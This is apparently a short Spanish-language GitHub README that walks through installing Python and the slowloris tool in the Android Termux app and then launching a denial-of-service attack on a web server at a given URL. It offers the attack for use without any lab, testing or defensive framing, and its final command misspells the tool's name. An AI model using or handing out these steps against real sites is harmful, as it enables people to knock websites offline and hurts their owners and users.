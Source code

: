 # Slowloris-DDos---Termux
Instalación y ataque DDos en termux 

# _Attack DDOS with Slowloris in Termux

_Línea de comandos:
~_Necesarios en cada entrada a termux_~:
1.- pkg update 
2.- pkg upgrade

~_Instalación y actualización de pip_~:
3.- pip install --upgrade pip

_~Instalacion de python, para poder ejecutar el programa~_:
4.- pkg install python 

_~Instalación de slowloris~_:
5.- pip install slowloris 

_~Attack~_:
6.- slowaris -p 80 -s 15 URL 

_By_
*_#D4rKM1nD_*
